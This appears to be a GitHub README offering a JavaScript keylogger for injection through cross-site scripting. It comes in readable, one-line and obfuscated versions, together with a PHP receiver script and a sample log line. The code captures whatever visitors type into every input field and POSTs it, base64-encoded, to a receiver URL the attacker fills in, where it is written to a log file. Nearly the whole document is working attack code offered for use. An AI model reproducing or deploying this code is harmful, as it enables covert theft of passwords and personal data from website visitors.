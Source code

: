 Simple Keylogger written in JavaScript to be used in XSS attacks
===

The script creates an event to detect the insertion of text in each text field of type "input" and sends the written content to the specified server that will have the second script called "receiver.php" running.

## JavaScript Source Code

** Replace the `TYPE_THE_RECEIVER.PHP_URL_HERE` with the URL of the receiver script **

```javascript
var str = "";
var lastPress = Date.now();
var sent = true;
var declared = false;
var element = "";

var inputs = document.querySelectorAll('input');
for (i = 0; i < inputs.length; i++) {
    inputs[i].oninput = function(e) {
        str = e.target.value;
        element = e.target.outerHTML;
        sent = false;
        lastPress = Date.now();
    }
}

if (declared === false) {
    declared = true;
    var req = new XMLHttpRequest();
    window.setInterval(function() {
        if (sent === false && (Date.now() - lastPress) >= 2000) {
            sent = true;
            req.open("POST","TYPE_THE_RECEIVER.PHP_URL_HERE", true);
            req.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
            req.send("str="+btoa(element+" -> "+str));
        }
    }, 500);
}
```

## JavaScript One Line Source Code

```javascript
var str="";var lastPress=Date.now();var sent=true;var declared=false;var element="";var inputs=document.querySelectorAll('input');for(i=0;i<inputs.length;i++){inputs[i].oninput=function(e){str=e.target.value;element=e.target.outerHTML;sent=false;lastPress=Date.now()}}if(declared===false){declared=true;var req=new XMLHttpRequest();window.setInterval(function(){if(sent===false&&(Date.now()-lastPress)>=2000){sent=true;req.open("POST","TYPE_THE_RECEIVER.PHP_URL_HERE",true);req.setRequestHeader("Content-type","application/x-www-form-urlencoded");req.send("str="+btoa(element+" -> "+str))}},500)}
```

## JavaScript Ofuscated Source Code

** Replace the `TYPE_THE_RECEIVER.PHP_URL_HERE` with the URL of the receiver script **

```javascript
var _0x46009d=_0x1166;(function(_0x5240e0,_0xa2a147){var _0x2b658c=_0x1166,_0x471711=_0x5240e0();while(!![]){try{var _0x2785e6=-parseInt(_0x2b658c(0xdc))/0x1*(parseInt(_0x2b658c(0xdf))/0x2)+-parseInt(_0x2b658c(0xd9))/0x3+-parseInt(_0x2b658c(0xdb))/0x4+-parseInt(_0x2b658c(0xe2))/0x5+-parseInt(_0x2b658c(0xeb))/0x6+parseInt(_0x2b658c(0xde))/0x7*(-parseInt(_0x2b658c(0xe5))/0x8)+parseInt(_0x2b658c(0xdd))/0x9;if(_0x2785e6===_0xa2a147)break;else _0x471711['push'](_0x471711['shift']());}catch(_0x5579f9){_0x471711['push'](_0x471711['shift']());}}}(_0x1591,0x629fd));var str='',lastPress=Date[_0x46009d(0xe8)](),sent=!![],declared=![],element='',inputs=document[_0x46009d(0xda)](_0x46009d(0xd5));for(i=0x0;i<inputs[_0x46009d(0xd8)];i++){inputs[i][_0x46009d(0xe3)]=function(_0x37b8b9){var _0x83cbfa=_0x46009d;str=_0x37b8b9[_0x83cbfa(0xe9)][_0x83cbfa(0xd6)],element=_0x37b8b9[_0x83cbfa(0xe9)][_0x83cbfa(0xd7)],sent=![],lastPress=Date[_0x83cbfa(0xe8)]();};}function _0x1591(){var _0x4419c4=['str=','open','2552125XAdCtV','oninput','setInterval','589216BpoPwR','TYPE_THE_RECEIVER.PHP_URL_HERE','application/x-www-form-urlencoded','now','target','send','2332524ujwUnQ','input','value','outerHTML','length','908493niXoGr','querySelectorAll','2406004KvWXcB','16739DEdXzG','28635201KKIsoe','56tjjgLb','46uBySdK'];_0x1591=function(){return _0x4419c4;};return _0x1591();}function _0x1166(_0x31ece7,_0x2e443e){var _0x159156=_0x1591();return _0x1166=function(_0x116607,_0x4a095d){_0x116607=_0x116607-0xd5;var _0x226807=_0x159156[_0x116607];return _0x226807;},_0x1166(_0x31ece7,_0x2e443e);}if(declared===![]){declared=!![];var req=new XMLHttpRequest();window[_0x46009d(0xe4)](function(){var _0x40b287=_0x46009d;sent===![]&&Date[_0x40b287(0xe8)]()-lastPress>=0x7d0&&(sent=!![],req[_0x40b287(0xe1)]('POST',_0x40b287(0xe6),!![]),req['setRequestHeader']('Content-type',_0x40b287(0xe7)),req[_0x40b287(0xea)](_0x40b287(0xe0)+btoa(element+'\x20->\x20'+str)));},0x1f4);}
```

## PHP Source Code

```php
<?php
    header('Access-Control-Allow-Origin: *');
    if (isset($_POST['str']) && strlen($_POST['str']) > 0) {
        file_put_contents("keylog.log", date('Y/m/d h:i:s')." | ".base64_decode($_POST['str']).PHP_EOL, FILE_APPEND);
    }
?>
```

## Log Output Example

```
2022/01/02 07:50:48 | <input type="text" id="inputTestId" name="inputTestName" class="inputTestClass"> -> This is a log example
```

